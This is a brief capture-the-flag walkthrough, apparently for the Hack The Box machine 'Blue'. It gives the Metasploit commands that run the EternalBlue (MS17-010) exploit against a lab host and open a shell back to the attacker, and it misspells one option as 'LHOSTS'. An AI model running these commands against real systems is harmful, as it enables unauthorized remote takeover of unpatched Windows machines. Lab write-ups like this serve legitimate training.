 # Blue
## Simply Eternal Blue

> Go to msfconsole and execute these commands to execute eternalblue exploit

```
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.10.10.40
set LHOSTS tun0
run
```

*Boom, You got yourself a root shell!*
